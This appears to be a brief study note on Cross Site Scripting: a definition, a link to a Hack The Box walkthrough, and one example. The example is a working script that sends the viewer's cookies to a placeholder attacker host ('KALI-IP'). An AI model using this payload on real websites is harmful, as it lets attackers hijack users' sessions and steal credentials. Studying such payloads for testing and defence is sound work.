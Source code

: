 
Cross Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker is able to inject malicious scripts into a legitimate website or web application, which can then be executed by unsuspecting users. 

XSS attacks can be used to steal sensitive information, such as login credentials or personal data, from users who visit the compromised site. They can also be used to deface websites, redirect users to malicious sites, or perform other malicious activities.


# Guide

# Walkthrough

[HTB: Holiday | 0xdf hacks stuff](https://0xdf.gitlab.io/2019/09/11/htb-holiday.html)

# Examples

## Stealing Cookies

```
<html>
<body>
<script>
var r = new XMLHttpRequest();
r.open("GET", "http://KALI-IP/" + document.cookie);
r.send();
</script>
</body>
</html>
```

Sending this HTML to the website which will display it will steal the cookie from any user who views it.